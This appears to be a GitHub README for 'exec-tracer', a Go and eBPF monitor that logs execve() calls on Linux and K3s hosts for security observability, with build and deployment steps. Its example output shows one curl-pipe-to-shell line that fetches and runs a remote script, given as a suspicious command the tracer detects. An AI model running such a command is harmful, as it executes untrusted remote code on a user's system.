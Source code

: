 

## 📦 `exec-tracer`: Lightweight Go + eBPF `execve()` Monitor for K3s and Linux Hosts

### 🧠 Overview

`exec-tracer` is a minimalist **eBPF-based syscall monitor** written in **Go** using the [Cilium/ebpf](https://github.com/cilium/ebpf) library. It attaches a **kprobe** to the `execve()` syscall and captures command executions across the system, including inside Kubernetes pods (e.g. K3s workloads). Perfect for building your own:

* 🛡️ Security observability agent
* 🔍 Lightweight audit or forensics layer
* 🧪 Behavior tracker for suspicious pods

---

## 🚀 Features

* ✅ Written in pure Go with embedded C-based eBPF program
* ✅ Uses `bpf2go` to generate Go bindings
* ✅ Captures PID, command name, and invoked binary path (`argv[0]`)
* ✅ Works on K3s, microk8s, or bare-metal Linux
* ✅ No dependencies on Falco, Tetragon, or Tracee

---

## 📁 Directory Structure

```
exec-tracer/
├── main.go             # Go userland loader and logger
├── trace.bpf.c         # eBPF C code that hooks execve()
├── bpf_gen.go          # Generated bindings (from bpf2go)
├── go.mod              # Module config
```

---

## ⚙️ Requirements

* Linux kernel **5.4+** (recommended 5.10+)
* `clang`, `llvm`, and `libelf-dev`
* Docker or bare metal K3s nodes
* Go **1.21+**

---

## 🔧 Setup

### 1. Clone this repo

```bash
git clone https://github.com/yourusername/exec-tracer.git
cd exec-tracer
```

### 2. Install prerequisites

```bash
sudo apt install clang llvm libelf-dev gcc make linux-headers-$(uname -r)
go install github.com/cilium/ebpf/cmd/bpf2go@latest
```

### 3. Generate eBPF bindings

```bash
bpf2go Tracer trace.bpf.c --target amd64
```

This creates `bpf_gen.go` and `.o` ELF binaries.

### 4. Build the tracer

```bash
go build -o exec-tracer .
```

### 5. Run it

```bash
sudo ./exec-tracer
```

---

## 📊 Example Output

```text
[*] Listening for execve() events...
[execve] pid=1441 cmd=bash argv=/bin/bash
[execve] pid=1442 cmd=curl argv=curl -fsSL http://10.0.0.5/x.sh | sh
```

You’ll see real-time command execution including pod-level execs or suspicious binaries invoked by workloads.

---

## 🔐 Running Inside Kubernetes

If you're running K3s:

* Package this as a **privileged DaemonSet**
* Mount `/sys/fs/bpf` and `/proc` as required
* Add nodeSelector or tolerations as needed
* Capture pod metadata via PID namespace mapping (optional advanced)

---

## ✍️ Customizing

| Area                      | How to customize                                                      |
| ------------------------- | --------------------------------------------------------------------- |
| Filter PIDs or containers | Add namespace or cgroup filters in `trace.bpf.c`                      |
| Add syscall arguments     | Extend `event` struct and `bpf_probe_read_user()`                     |
| Output to file / webhook  | Replace `fmt.Printf` with JSON logger, file writer, or HTTP forwarder |
| Export metrics            | Use `prometheus/client_golang` to expose counters                     |

---

## 📦 Roadmap

* [ ] Add JSON logging support
* [ ] Add namespace/container filtering
* [ ] Deployable DaemonSet YAML
* [ ] Optional webhook or Prometheus output
* [ ] Integration with Loki/Grafana stack

---

## 🧠 Why eBPF?

eBPF allows you to run safe, sandboxed programs in the Linux kernel with minimal overhead. It is ideal for:

* Deep observability (syscalls, networking, security)
* Runtime enforcement
* Low-latency tracing without modifying applications

---

## 🛡️ License

MIT — fork, hack, build, and use it however you like. Built for home labs, red teams, and nerds.


